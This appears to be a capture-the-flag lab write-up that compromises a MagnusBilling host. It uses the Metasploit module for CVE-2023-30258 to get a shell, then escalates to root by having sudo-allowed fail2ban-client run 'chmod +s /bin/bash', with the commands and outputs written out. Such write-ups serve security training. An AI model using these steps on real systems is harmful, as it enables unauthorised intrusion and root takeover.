# Billing

Gain a shell, find the way and escalate your privileges!

Note: Bruteforcing is out of scope for this room.

nmap -sC -sV 10.10.45.158



After a short search, we see that it seems like an open-source VoIP billing and management system for managing SIP trunks, VoIP calls, and customer billing. It provides tools for call routing, monitoring, and invoicing.

This has an unauthenticated remote command execution vulnerability CVE-2023-30258, which is available as a manual exploit but is also present in the Metasploit framework.
Let's call it from Metasploit, it's much easier
    
 #  Name                                                        Disclosure Date  Rank       Check  Description
   -  ----                                                        ---------------  ----       -----  -----------
   0  exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258  2023-06-26       excellent  Yes    MagnusBilling application unauthenticated Remote Command Execution.
   1    \_ target: PHP                                            .                .          .      .
   2    \_ target: Unix Command                                   .                .          .      .
   3    \_ target: Linux Dropper                          

   Don't forget to Set the RHOSTS and LHOST
    
    We are in, let's go more in depth
    
    i wanted to work with the bash, not shell from msfconsole 
    
    Make interactive with python -> python3 -c 'import pty; pty.spawn("/bin/bash")'
    
    User.txt flag 
    
asterisk@ip-10-10-45-158:/home/magnus$ sudo -l
sudo -l
Matching Defaults entries for asterisk on ip-10-10-45-158:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on ip-10-10-45-158:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
There you can find an approach to customize a config in the config directory and place code in it that is to be executed with root permissions. Unfortunately, we only have read-only access to the directory...

cat /etc/fail2ban

fail2ban-client is a command-line interface that allows us to interact with, configure, and control the fail2ban-server. To give a brief explanation, fail2ban is a security tool that monitors log files for suspicious activities (such as repeated failed login attempts) and bans the offending IP addresses by updating firewall rules.

Checking the running processes, fail2ban-server is running as root, as expected.

Jails are basically configurations that define which logs to monitor, the patterns to look for, and the actions to take when a pattern is matched.

asterisk@ip-10-10-45-158:/etc/fail2ban$  /usr/bin/fail2ban-client set asterisk-manager
<ban$  /usr/bin/fail2ban-client set asterisk-manager
2025-08-30 07:51:34,904 fail2ban                [50777]: ERROR   Permission denied to socket: /var/run/fail2ban/fail2ban.sock, (you must be root)
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client status
sudo /usr/bin/fail2ban-client status
Status
|- Number of jail:      8
`- Jail list:   ast-cli-attck, ast-hgc-200, asterisk-iptables, asterisk-manager, ip-blacklist, mbilling_ddos, mbilling_login, sshd
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set asterisk-manager addaction evil
<fail2ban-client set asterisk-manager addaction evil
evil
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set asterisk-manager action evil actionban "chmod +s /bin/bash"
<-manager action evil actionban "chmod +s /bin/bash"
chmod +s /bin/bash
asterisk@ip-10-10-45-158:/etc/fail2ban$ sudo /usr/bin/fail2ban-client set asterisk-manager banip 1.2.3.4
</fail2ban-client set asterisk-manager banip 1.2.3.4
1
asterisk@ip-10-10-45-158:/etc/fail2ban$ ls -al /bin/bash
ls -al /bin/bash
-rwsr-sr-x 1 root root 1265648 Apr 18 13:47 /bin/bash
asterisk@ip-10-10-45-158:/etc/fail2ban$ /bin/bash -p 
/bin/bash -p 
bash-5.2# whoami
whoami
root
bash-5.2# 
